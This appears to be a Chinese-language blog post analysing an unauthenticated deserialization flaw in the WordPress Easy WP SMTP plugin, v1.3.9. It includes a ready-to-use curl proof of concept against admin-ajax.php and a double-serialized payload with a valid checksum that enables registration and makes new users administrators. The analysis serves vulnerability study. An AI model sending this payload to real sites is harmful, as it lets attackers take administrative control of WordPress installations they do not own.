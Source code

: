 ```yaml
---
layout: post
title:  "WordPress Easy WP SMTP反序列化漏洞分析"
date:   2019-04-06 16:31:21 +0800
categories: bug
category: bug
---
```


<p>
	<span style="color:#DAA520;"><strong>Wordpress插件Easy WP SMTP最近新出了个漏洞，以前有关注过，好像新的代码变化有点大，所以这里花了点时间简单分析下。</strong></span>
</p>

首先，这个漏洞存在于版本v1.3.9。 我这里能下到最接近的老版本是v1.3.8，可惜v1.3.9更迭了一些重要代码，我找到的版本，应该不能复现这个漏洞。
下面我会根据网上一些细节进行分析，没耐心的大佬可以直接跳到最后看原版的分析。

关键函数位置在：
```
wp-content/plugins/easy-wp-smtp/easy-wp-smtp.php::admin_init
```
这里的函数，可以在用户登入admin界面时进行hook，本来是用来查看删除日志，导入/删除/更新数据库里的配置的。

然而他这里没有对用户权限做严格的验证，甚至没有认证过的游客一样可以触发这个漏洞。
/wp-admin/admin.php的注释里对admin_init解释道：
```
Note, this does not just run on user-facing admin screens. It runs on admin-ajax.php and admin-post.php as well.
```

我们这里在admin-ajax.php处，为了触发漏洞，发送了action=swpsmtp_clear_log的ajax交互请求：

网上给出的poc：
```
$ curl https://VICTIM.COM/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

```

网上的poc是利用函数中的一个导入配置文件的功能：
```
$in_raw = file_get_contents( $_FILES[ 'swpsmtp_import_settings_file' ][ 'tmp_name' ] );
```
在导入以后，他会对文件内容进行一个反序列化解析：
```
$in = unserialize( $in_raw );
```
我们可以使用下面的array:
```
{
  ["users_can_register"]=>
  string(1) "1"
  ["default_role"]=>
  string(13) "administrator"
}
```
序列化以后成为：
```
"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}"
```
再次组合array：
```
{
  ["data"]=>
  string(81) "a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}"
  ["checksum"]=>
  string(32) "3ce5fb6d7b1dbd6252f4b5b3526650c8"
}

```
第二次序列化后，将下面的结果，存入我们要上传的文件/tmp/upload.txt里：
```
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}
```

简单说下，为何要这么构造呢，因为我们的插件代码里有这么一段：
```
$in = unserialize( $in_raw );
if ( empty( $in[ 'data' ] ) ) {
	 echo $err_msg;
	 wp_die();
}
if ( empty( $in[ 'checksum' ] ) ) {
	 echo $err_msg;
	 wp_die();
}
if ( md5( $in[ 'data' ] ) !== $in[ 'checksum' ] ) {
	 echo $err_msg;
	 wp_die();
}
```
我们可以看到，需要绕过两个部分：
```
unserialize( $in_raw );
unserialize( $in['data'] )
```
经过两次反序列化的结果后，data的内容，也就是下面的数组：
```
{
  ["users_can_register"]=>
  string(1) "1"
  ["default_role"]=>
  string(13) "administrator"
}
```
才能分拆为key-value，进入后续函数：
```
foreach ( $data as $key => $value ) 
{
	    update_option( $key, $value );
}
```

users_can_register是配置的注册启用选项，default_role是默认普通权限，administrator是管理权限。
到这里就明了了，开启注册后，我们注册的普通用户都是管理权限，没必要去取原来的管理密码，反正也解不出来...


下面我们可以跟到更新数据库配置的位置，这就已经到主branch了：
```
/wp-includes/option.php::update_option
```
我们可以看到，里面的key，value的值经过下面的函数过滤，对序列化和拼接做了限制，再者使用的$wpdb进行sql执行update，可以操作的地方就比较有限了：
```
$value = apply_filters( "pre_update_option_{$option}", $value, $old_value, $option );
$value = apply_filters( 'pre_update_option', $value, $option, $old_value );
	
if ( $value === $old_value || maybe_serialize( $value ) === maybe_serialize( $old_value ) ) 
{
	return false;
}

$result = $wpdb->update( $wpdb->options, $update_args, array( 'option_name' => $option ) );
```
附上数据库wp_options表查询的最初始的默认结果：
![](http://ww1.sinaimg.cn/large/697f6f27ly1g1agtwdr61j210i0dujsn.jpg)

本文可能略显啰嗦，只是为了给小白解释的清楚些，大佬们见谅。

引用文章：

[Critical zero-day vulnerability fixed in WordPress Easy WP SMTP plugin.](https://blog.nintechnet.com/critical-0day-vulnerability-fixed-in-wordpress-easy-wp-smtp-plugin/)
